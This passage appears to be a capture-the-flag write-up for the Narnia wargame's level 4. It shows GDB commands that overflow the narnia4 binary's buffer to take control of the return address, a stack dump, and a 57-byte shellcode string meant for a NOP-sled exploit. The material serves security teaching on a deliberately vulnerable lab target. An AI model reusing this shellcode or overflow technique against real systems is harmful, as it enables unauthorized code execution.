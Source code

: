 <img src="./img/Screenshot 2024-10-13 110818.png"></img>
Let's analyze and exploit the vulnerability using GDB:
```bash
gdb -q ./narnia4 r $(python3 -c "print('A'*256 + 'BBBB')")
```
Run the program again with a larger input to trigger a segmentation fault and see where the overflow occurs:
```bash
r $(python3 -c "print('A'*264 + 'BBBB')")
```

You'll see a segmentation fault, and the address `0x42424242` (which represents `BBBB`) is where the buffer overflow occurs. This tells us we can overwrite the return address.

Now, examine the stack to locate the exact memory address where you can inject your shellcode:
```bash
x/600wx $esp
```

We'll build the exploit with the following elements: NOP sled, shellcode, and return address.

Here is the shellcode we'll use (57 bytes by Jonathan Salwan):
```bash
\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81
```
